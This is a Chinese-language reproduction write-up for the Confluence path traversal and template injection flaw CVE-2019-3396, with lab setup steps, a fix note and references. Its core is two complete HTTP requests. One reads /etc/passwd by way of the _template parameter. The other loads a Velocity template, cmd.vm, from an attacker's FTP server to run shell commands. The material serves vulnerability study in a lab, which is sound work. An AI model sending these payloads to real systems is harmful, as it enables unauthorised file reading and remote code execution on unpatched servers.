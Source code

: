 # Confluence 未授权导致RCE漏洞(CVE-2019-3396) 

## 0x01 漏洞描述

*漏洞介绍*

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

*影响版本*

6.6.12之前所有6.6.x版本，6.12.3之前所有6.12.x版本，6.13.13之前所有6.13.x版本，6.14.2之前所有6.14.x版本。

## 0x01 搭建漏洞环境


利用[Vulhub](https://github.com/vulhub/vulhub)里的`confluence/CVE-2019-3396`的weblogic版本作为漏洞环境，启动命令为：
```
docker-compose up -d
```
等待一段时间，访问`http://8090:7001/`安装引导，选择“Trial installation”，之后会要求填写license key。点击“Get an evaluation license”，去Atlassian官方申请一个Confluence Server的测试证书（不要选择Data Center和Addons）：

![](./img/1.png)

然后点击Next安装即可。

如果提示填写cluster node，路径填写`/home/confluence`即可。然后填入数据库账号密码，选择`postgres`数据库，地址为db，账号密码均为`postgres`：

![](./img/2.png)

搭建完成。


## 0x02 漏洞复现

### 文件读取

发送数据包

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.10.128:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent:Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer:http://192.168.10.128:8090/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type:application/json; charset=utf-8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh-HK;q=0.6,zh-TW;q=0.5
Cookie: JSESSIONID=C06C1362ADBA16FF4BCBD5069A1461A6
Connection: close
Content-Length: 178


{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```

![](./img/3.png)

去访问发现成功读取`/etc/passwd`信息


### RCE

是通过模板注入（SSTI）来执行任意命令，我们首先要先将[cmd.vm](https://github.com/zhengjim/loophole/tree/master/CVE-2019-3396/cmd.vm)上传至我们的FTP服务器上。

![](./img/4.png)

然后发送数据包：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.10.128:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent:Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer:http://192.168.10.128:8090/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type:application/json; charset=utf-8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh-HK;q=0.6,zh-TW;q=0.5
Cookie: JSESSIONID=C06C1362ADBA16FF4BCBD5069A1461A6
Connection: close
Content-Length: 222


{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"ftp://xx.xxx.xxx.xx/cmd.vm","cmd":"ifconfig"}}}
```

复现成功

## 漏洞修复

官方已修复该漏洞，请升级到无漏洞版：https://www.atlassian.com/

## 参考文献

1. https://github.com/Yt1g3r/CVE-2019-3396_EXP
2. https://www.freebuf.com/column/200320.html
3. https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396
